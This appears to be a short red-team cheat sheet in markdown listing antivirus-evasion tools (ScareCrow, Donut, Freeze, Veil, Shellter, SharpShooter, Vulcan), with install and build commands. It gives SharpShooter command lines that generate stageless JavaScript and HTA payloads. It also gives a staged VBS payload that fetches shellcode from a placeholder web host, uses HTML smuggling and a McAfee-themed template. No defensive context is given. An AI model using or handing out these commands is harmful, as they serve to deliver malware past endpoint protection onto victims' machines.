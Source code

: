 ```yaml
---
category: Uncategorized
tags: []
---
```

#exploitation
# Recent Tools to Bypass AV: 

## Scarecrow

Source: https://github.com/optiv/ScareCrow

In Kali: 

sudo apt install golang

go get github.com/fatih/color
go get github.com/yeka/zip
go get github.com/josephspurrier/goversioninfo

go build ScareCrow.go

./ScareCrow

## Donut: 

Source: https://github.com/TheWover/donut

## Freeze: 
Source: https://github.com/Tylous/Freeze

Installation

```
sudo apt install golang
go build Freeze.go
```

# Old tools to bypass AV
## Veil Framework:

Install on Kali: 
- apt install veil
- /usr/share/veil/config/setup.sh --force --silent

Reference: https://github.com/Veil-Framework/Veil

## Shellter

Source: https://www.shellterproject.com/download/

- apt install shellter


## Sharpshooter

Javascript Payload Stageless: 
- SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

Stageless HTA Payload: 

- SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

Staged VBS:

- SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

Reference: https://github.com/mdsecactivebreach/SharpShooter


## Vulcan

Source: https://github.com/praetorian-code/vulcan



# Resources: 

- https://book.hacktricks.xyz/windows-hardening/av-bypass
- https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates

